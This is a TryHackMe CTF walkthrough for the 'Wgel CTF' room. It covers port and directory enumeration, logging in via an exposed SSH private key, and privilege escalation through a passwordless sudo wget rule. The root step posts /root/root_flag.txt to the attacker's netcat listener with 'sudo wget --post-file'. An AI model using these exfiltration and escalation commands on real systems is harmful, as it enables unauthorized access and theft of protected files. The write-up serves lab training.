## Wgel CTF

### Introduction

Hello and welcome to my write-up/walkthrough for the [TryHackMe](https://tryhackme.com) room [Wgel CTF](https://tryhackme.com/room/wgelctf)

This is a pretty easy room, but I think it is a good one to look at either way as the method to get the `root` flag is a bit different than others. 

### Goals

This room has two flags that we need to find.
- User Flag
- Root Flag

### Notes

This room was completed using a Kali VM installed on my personal machine. 

Any time `$IP` is referenced in a command, replace that with the target machine's IP address, as this will vary from instance to instance.

This is also one of the few machines that I have ran into connection issues using OpenVPN to do this on my VM. You may want to complete this room with TryHackMe's AttackBox if you can. 

With that out of the way, let's begin!

## Enumeration.

As with all of the rooms that a machine needs to be deployed on TryHackMe, the first steps are always trying to see what we can find out about the target machine in order to gain access. 

The first tool I use is `nmap` and then will follow that up with `gobuster`.

### nmap

In order to see what ports and services are running on the target we will run a `nmap` scan using the following command:

`nmap -sV -sC $IP`

![nmap](images/nmap.png)

As we can see from the screenshot above, we have two ports open. `port 22` for `ssh` and `port 80` for HTTP.

Two things to note from that scan. With port 80 being open, there is likely a webserver being hosted on the target machine, and we should be able to view that in our browser. Second, with `port 22` being open for `ssh` connections, we will most likely need to find a username and a password of some form to connect to the machine via `ssh`

Now that we know what ports are open on the machine, we can move onto `gobuster`.

### gobuster

To begin scanning the target for other directorys that we might be able to access in a browser, we can use the tool `gobuster` to run through a wordlist to see what might be hidden. For that we can run the following command:

`gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt`

Once that is complete, you will get the following output:

![gobuster](images/gobuster.png)

We get a few results that we can make note of, noteably `/sitemap/` as it appears that there might be more contained within that directory.

With both of those out of the way, lets take a look at the site itself.

Entering `$IP` in a browser shows us the following. 

![apache2](images/apache2.png)

Since it's a default Apache2 screen, it seems like Apache2 is running on the target, but hasn't been set up yet.

However, things tend to be 'hidden in plain sight' so I always look at the page source.

![source](images/source.png)

That looks like it might be of interest! We have a potential username of `jessie` that we might be able to use later on to connect via `ssh` 

Next we can move on to the results of the `gobuster` scan that we did earlier. First we will look at `$IP/sitemap`

When first get to `$IP/sitemap` we get this 'unapp Template' that doesn't seem to really contain too much for us. Clicking links leads us to 404's, so I think that this is more-or-less a placeholder.

![sitemap](sitemap.png)

We should go back to `gobuster` and run another scan on `$IP/sitemap` to see if there is anything hidden within. 

We can do that with the following command:

`gobuster dir -u http://$IP/sitemap -w /usr/share/wordlists/dirb/common.txt`

![gobuster2](images/gobuster2.png)

Now that is an insteresing find. There is a `.ssh` directory. Let's open that in a browser to see what's there.

![.ssh](images/sshdir.png)

Clicking on `id_rsa` opens up what appears to be a RSA private key. We will need to copy that into a local file, and then we can possibly use that to log in as `jessie`.

I created a local file called `id_rsa1` and pasted the contents of `$IP/sitemap/.ssh/id_rsa` with `nano`

![nanorsa](images/nanorsa.png)

Once we have that saved, we can attempt to `ssh` into the target machine using the following command:

`ssh -i id_rsa1 jessie@$IP`

Note: `-i` lets you specify the private RSA key that you want to use, so you will need to specify the filepath and filename for what you saved the private RSA key that we found.

Also when you utilize a different private RSA key, it will look at the file permissions of that key. If the key can be 'read' by anyone other than the user, it will not accept it, and you will get an error that looks like the following screenshot:

![ssherror](images/ssherror.png)

To fix this, you will need to press `ctrl+c` and use `chmod 400 id_rsa1` to allow only the owner to read it. You can then run `ssh -i id_rsa1 jessie@$IP` again to connect to the target.

![ssh](images/ssh.png)

We are now connected to the machine as `jessie`

In looking around in `/home/jessie` we can find the `user_flag.txt` in `/home/jessie/Documents/user_flag.txt` and can view it with `cat user_flag.txt`

![user](images/user.png)

Now that we have the first of our two goals, we need to find the `root flag`.

First lets check if we can run anything as `sudo` by running `sudo -l`. Hopefully there is something that we can run that doesn't require a password, as we don't have `jessie`'s password.

![sudol](images/sudol.png)

It appears that we can use `wget` with sudo, without using a password. 

Lets see if there is a way that we can exploit this on one of my favorite resources GTFObins

#### GTFObins

Once we navigate to [GTFObins](https://gtfobins.github.io) we can search for wget

![gtfo1](images/gtfo1.png)

Since we are looking for the `root flag`, the `File Upload` section will most likely be our best bet.

![gtfo2](images/gtfo2.png)

We will need to set 2 different variables. The first being `$URL`. 

Find the IP address of YOUR machine (With TryHackMe, this will be the IP address listed at the top of the room highlighted in green)

Once you have that IP address, we will need to pick a port. (I always use 1234 for a port, but any port not in use will work)

We will set `$URL` with the command

`URL=YOURIP:1234`

![URL](images/URL.png)

For the `LFILE` variable, we will need to specify the file that we are going to upload to `$URL`.
As this is for the `root flag`, I guessed that it would be located in the `/root/` directory, following the same naming convention used for `user_flag.txt`.

To set that as `LFILE` we can run the command

`LFILE=/root/root_flag.txt`

Once those are both set, we just need to open an additional terminal and set up a `netcat` listener. This will listen for the information that is being sent when we run the `wget` command from the target machine. 

For this, you will enter `nc -lvnp 1234` and press enter, where `1234` is whichever port that you selected earlier.

![nc](images/nc.png)

Once your listener is set up, return to your other terminal and we will run the following command:

`sudo wget --post-file=$LFILE $URL`

Hit enter to run it, and we should get the root flag in our netcat listener!

![root](images/root.png)

We now have both `user_flag.txt` and `root_flag.txt` to complete the room!

### Conclusion. 

Thank you very much for taking the time to read through my write-up, and be sure to check out the others that I have hosted on my GitHub as well. 
